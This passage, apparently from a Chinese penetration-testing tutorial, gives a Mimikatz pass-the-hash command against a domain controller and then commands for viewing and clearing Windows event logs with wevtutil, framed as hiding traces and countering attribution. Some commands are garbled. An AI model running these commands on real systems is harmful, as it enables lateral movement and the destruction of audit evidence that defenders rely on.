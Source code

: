 4.3 PTH 域控
----------

```
sekurlsa::pth /domain:DC /user:Administrator/ntlm:852a844adfce18f66009b4f14e0a98de/run:powershell.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAKmSWlnO42mak8JUoUjdwPwIyfEcr3Mr5EOJWFwnu8AdT21ZLXAzUXA/640?wx_fmt=png)

0x05 规避 Windows 事件日志记录
======================

在做完一些渗透测试清理痕迹是很有必要的一个环节，包括在一些渗透还未结束也要清理掉一些操作日志。在情报收集反溯源等等大多都是采用 windows 事件日志中。

5.1 查看 windows 日志
-----------------

### 5.1.1 事件管理器

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSA4RGibWbgTouMNlFMavPCahgpPgRwU1rgkrD7juNqbU82HcPRXL7qbvg/640?wx_fmt=png)

### 5.1.2 powershell

管理员权限运行查看安全类别的日志：

```
Get-WinEvent-FilterHashtable@{log;}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSALOe6Nw2BfMPW2xyesez8pyYh1PSl0Y9Rhu3J5NTLAKWMDHyJ9OzDrw/640?wx_fmt=png)

5.2 windows 日志清除方法
------------------

### 5.2.1 wevtutil.exe

**统计日志列表数目信息等：**

```
wevtutil.exe gli Applicationwevtutil.exe gli Security
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAYzdlMBdw8KUj2iaY3S2fqicgTtV7SDsMiccvR1Bq2O7MuJCpQOicsKE56A/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAURQIgtGxnGBB0icrzXG8ibnCBLicwoMfY9h71bJkbw147rWWmeq2t26KQ/640?wx_fmt=png)

**查询指定类别的 (这里以 security 举例):**

```
wevtutil qe Security/f:text
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSANGZexhwzZfichB9k5ew3kOOR34V0k68TRnVDDowW5ADtoSibia4LzEfSw/640?wx_fmt=png)

**删除指定类别：**

```
wevtutil cl security
```
